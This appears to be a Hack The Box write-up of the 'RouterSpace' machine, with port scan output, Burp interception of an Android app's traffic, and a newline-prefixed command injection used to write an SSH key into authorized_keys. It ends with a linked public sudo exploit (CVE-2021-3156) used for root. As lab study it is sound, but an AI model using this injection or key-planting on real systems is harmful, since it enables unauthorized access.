



This was a fun box to go through, I got to play with apks for the first time.

rustscan -a 10.10.11.148 -- -A -Pn -T4 -sC -sV

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|\_    SSH-2.0-RouterSpace Packet Filtering V1
80/tcp open  http    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-56857
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 67
|     ETag: W/"43-fKluohJjd9lOnn7oe2xkZETZupo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: T 0y bClQs qE }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-10646
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 17 Jun 2022 16:52:03 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-33683
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|\_    Connection: close
|\_http-favicon: Unknown favicon MD5: B4398972638205B6E794C622C536410B
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-title: RouterSpace
|\_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.80%I=7%D=6/17%Time=62ACB133%P=x86\_64-alpine-linux-musl%r
SF:(NULL,29,"SSH-2\\.0-RouterSpace\\x20Packet\\x20Filtering\\x20V1\\r\\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=6/17%Time=62ACB134%P=x86\_64-alpine-linux-musl%r
SF:(GetRequest,312C,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpac
SF:e\\r\\nX-Cdn:\\x20RouterSpace-10646\\r\\nAccept-Ranges:\\x20bytes\\r\\nCache-Co
SF:ntrol:\\x20public,\\x20max-age=0\\r\\nLast-Modified:\\x20Mon,\\x2022\\x20Nov\\x
SF:202021\\x2011:33:57\\x20GMT\\r\\nETag:\\x20W/\\"652c-17d476c9285\\"\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=UTF-8\\r\\nContent-Length:\\x2025900\\r\\nDa
SF:te:\\x20Fri,\\x2017\\x20Jun\\x202022\\x2016:52:03\\x20GMT\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n<!doctype\\x20html>\\n<html\\x20class=\\"no-js\\"\\x20lang=\\"zxx\\
SF:">\\n<head>\\n\\x20\\x20\\x20\\x20<meta\\x20charset=\\"utf-8\\">\\n\\x20\\x20\\x20\\x
SF:20<meta\\x20http-equiv=\\"x-ua-compatible\\"\\x20content=\\"ie=edge\\">\\n\\x20
SF:\\x20\\x20\\x20<title>RouterSpace</title>\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\
SF:"description\\"\\x20content=\\"\\">\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\"viewpo
SF:rt\\"\\x20content=\\"width=device-width,\\x20initial-scale=1\\">\\n\\n\\x20\\x20
SF:\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/bootstrap\\.min\\.css\\"
SF:>\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/owl\\.carou
SF:sel\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\
SF:"css/magnific-popup\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\
SF:"\\x20href=\\"css/font-awesome\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel
SF:=\\"stylesheet\\"\\x20href=\\"css/themify-icons\\.css\\">\\n\\x20")%r(HTTPOptio
SF:ns,108,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn
SF::\\x20RouterSpace-33683\\r\\nAllow:\\x20GET,HEAD,POST\\r\\nContent-Type:\\x20t
SF:ext/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2013\\r\\nETag:\\x20W/\\"d-b
SF:MedpZYGrVt1nR4x\\+qdNZ2GqyRo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\x202022\\x20
SF:16:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nGET,HEAD,POST")%r(RTSPRe
SF:quest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\
SF:n\\r\\n")%r(X11Probe,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection
SF::\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,129,"HTTP/1\\.1\\x20200\\x20OK\\r\\
SF:nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn:\\x20RouterSpace-56857\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2067\\r\\nETag:
SF:\\x20W/\\"43-fKluohJjd9lOnn7oe2xkZETZupo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\
SF:x202022\\x2016:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nSuspicious\\x2
SF:0activity\\x20detected\\x20!!!\\x20{RequestID:\\x20\\x20T\\x200y\\x20\\x20bClQs
SF:\\x20\\x20\\x20qE\\x20\\x20\\x20}\\n");

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.67 seconds

We've only got 2 ports open.

I tried to ssh to see what I get.

As expected, can't login but now I know that I need to find a publickey. Passwords are disabled.

Next lets visit the website.

Nothing interesting came back from crawling the webpage. The only thing we can do is download an .apk file.

Now you will need to either install android studio or anbox to run the apk.

I chose to install anbox via this tutorial. [https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d](https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d)

Launch anbox and run routerspace.apk.

I used wireshark on interface anbox0 to see what the app is trying to do. I figured it was trying to connect to routerspace.htb. So I added the hostname to /etc/hosts.

Now that the router is connecting to the server. We can try to intercept the traffic using Burp.

First, we need to set a new proxy so burp can listen on.

adb shell settings put global http\_proxy 10.10.14.28:8001

Now we can configure burp.

Send to repeater so we can try to remotely execute code on the machine.

Whatever we type is just being returned. Adding \\n before the command and we have RCE!

We are unable to get a reverse shell going because iptables seems to be blocking all outgoing traffic. But we know we need to get a ssh key to login. /home/paul/.ssh/ seems to be empty. We'll have to generate a ssh key on our kali machine and to send over the public key. Then we can simply echo the rsa key into .ssh.

Kali Machine:

ssh-keygen

Now copy the public rsa key from .ssh and pass the code in Burp repeater.

\\necho '\[public rsa key\]' >> /home/paul/.ssh/authorized\_keys

Key has been successfully added.

Lets SSH in.

ssh -i path\_to\_id\_rsa paul@10.10.11.148

We got in and found the user.txt flag. Lets use linpeas.sh to priv esc.

Since Iptables is blocking us from using wget or curl. We know we can ssh, so we'll use scp to transfer files over using ssh.

scp -i id\_rsa linpeas.sh paul@10.10.11.148:.

Now run linpeas.sh on victim machine.

Next part is easy, we can see sudo is vulnerable.

A quick google gets us this [https://github.com/](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[mohinparamasivam](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[/Sudo-1.8.31-Root-Exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)

CVE-2021-3156.

scp the folder using -r. Now just make and run the exploit.

make
./exploit

That was easy, we've escalated privilege to root!
